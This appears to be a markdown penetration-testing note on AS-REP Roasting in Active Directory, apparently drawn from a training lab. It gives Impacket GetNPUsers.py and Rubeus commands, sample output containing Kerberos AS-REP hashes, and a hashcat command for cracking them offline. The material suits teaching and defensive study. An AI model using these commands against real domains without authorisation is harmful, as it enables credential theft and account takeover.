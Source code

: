 **AS-REP Roasting**

Is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "**Do not require Kerberos pre-authentication"**. This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!

![81bf1dad6425f8f06b0026f4e748f193](https://github.com/user-attachments/assets/2ccdf90a-420f-45dd-8c55-8f1142276804)


<br>
Before performming this attack we should edit our /etc/hosts file.
 
<br>

**First method**


We should do some recon to obtain the AD users and collect them in a file ```users.txt```:
```
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```
 ```
GetNPUsers.py -dc-ip <DomainController_IP> <domain name>/<user> -usersfile <path_to_users_file>
#OR
GetNPUsers.py -dc-ip <DomainController_IP> <domain name>/ -no-pass -usersfile <path_to_users_file>  #if we have no creds
```
**ex**
```
GetNPUsers.py -dc-ip 10.10.73.127 thm.red/thm -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:269af6bae34fa24f66669f64454eb290$95c86c6aad2085a6f0263c92587a1bee24d04e13e74e5c510d7b17287ce772553f28f5fe1306cda7ba06db1c0fede4c09c8e3e8fec0bebfd85c47ded661f54c686216c296ae99d6b389eaa7bbb1b12b85347fee45574d39a4ca2e5f157bb732472d4614787e4204ac82adcee530d4a6a9ab2da7775d06922f8650468826c329bbf4e86c9f6be04d5ff54790a098a09bbc2500659c834c96e4a90ba6e042855eaa1672645f8620abea4f7fb43322624c6950b990fc247f08be8a098adf9920e22c5f7310fe7b710def9b071472c2440629bedc226dc6fadff2e20727bc467e543f6c8
[-] User CREDS-HARVESTIN$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```


The ```GetNPUsers.py``` is used to request Kerberos **TGTs** for user accounts that have the **"Do not require Kerberos preauthentication"**

<br>

**Second method**

```
Rubeus.exe asreproast /nowrap
```
the output will look like this:
```
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b5c8:9b6f:25dc:5bf6%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:AF01B8AF2BA0C81C0D438ACB15A2B476$F766A68EF45E9C5924B096B5B4B0916366763EA31A6301E8DD511ACA336D7E162F29D6703BE0489410EBAB6E2A94EC416F1CA0DBA2B71A42C35BB0D1113E07B81D5D8662BF8CE1BAD89B9B408AFFDD531F0C401101937F1C5E2526E44194BF8CDC1ACB18623D52B19E30AA1D14C15E97FB6B329B92726AC394E0373C090B4C32C1D1CEBA3014BF5B0126F3C014BD1CDED856EC99C26F5566C66488C355BA49E572D445C88C583CCBF7686514297ABCB546FA2C18D15CAC4459235D798A3950C88C3369ABF2991AAF5EAB9D2C03792108F328EC65358427D86E5C595E7F5CB61828EABA0A99FA33F0241C51607BB14F1F415EA655
```
**Cracking the AS-REP Hash:**

To crack the AS-REP hash, you can use Hashcat with the following command:
```
hashcat -m 18200 hash.txt /path/to/rockyou.txt
```





























